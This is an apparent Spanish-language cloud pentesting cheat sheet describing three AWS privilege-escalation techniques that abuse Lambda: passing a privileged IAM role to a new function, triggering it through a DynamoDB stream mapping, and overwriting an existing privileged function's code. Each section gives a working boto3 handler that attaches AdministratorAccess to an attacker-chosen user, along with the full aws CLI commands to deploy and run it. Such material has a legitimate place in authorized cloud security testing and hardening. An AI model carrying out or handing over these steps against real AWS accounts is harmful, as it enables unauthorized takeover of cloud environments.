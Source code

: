 # PassExistingRoleToNewLambdaThenInvoke
Un atacante puede escalar privilegios pasando un rol existente de IAM a una nueva función lambda destinada a realizar acciones de su elección.

#### Permisos requeridos

- iam:PassRole
- lambda:CreateFunction
- lambda:InvokeFunction

### Ejecución

1) Creamos una función lambda que asigne a un usuario sobre el que tengamos control privilegios de amdmin.


        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response

2) Comprimimos el archivo
3) Creamos la lambda

        aws lambda create-function --function-name privesc --runtime python3.6 --role <rol_privilegiado> --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile <profile>

4) Invocamos la lambda

        aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile <profile>


---

# PassRoleToNewLambdaThenTriggerWithNewDynamo

A diferencia del caso anterior, un usuario que pueda crear una lambda pero no invocarla, puede aprovechar permisos para mapear la lambda a un evento en dynamodb para que se ejecute la lambda.

#### Permisos requeridos

- iam:PassRole
- lambda:CreateFunction
- lambda:CreateEventSourceMapping


### Ejecución:

1) Creamos la lambda

        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response

2) Comprimimos la función
3) subimos la lambda

        aws lambda create-function --function-name privesc --runtime python3.6 --role <rol_privilegiado> --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile <profile>

4) Mapeamos la lambda con un evento específico.

   - Tomamos el arn del flujo más reciente de la dynamodb. Este se encuentra en Dynamodb > tablas > <tabla> > exportaciones y flujos.
   - Creamos el mapeo
  
          aws lambda create-event-source-mapping --function-name privesc --event-source-arn <arn_flujo> --enabled --starting-position LATEST --region us-east-1 --profile <profile>
  
5) Si tenemos un usuario que puede cargar datos en la dynamodb (dynamodb:PutItem) podemos hacer un registro en la DB o esperamos que otro usuario lo realice.



# EditExistingLambdaFunctionWithRole

Un atacante puede abusar de sus permisos para cambiar el código de una lambda que posea permisos privilegiados y forzarla a realizar acciones que le permitan elevar privilegios.

#### Permiso necesario

- lambda:UpdateFunctionCode


### Ejecución

1) Buscamos una función lambda con privilegios.
2) Creamos una nueva función lambda que nos otorgue privilegios elevados.

        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response
3) Updateamos la lambda

        aws lambda update-function-code --function-name <lambda> --zip-file fileb://function.zip --profile <perfil>

4) Invocamos la lambda o esperamos que otro usuario la haga correr.
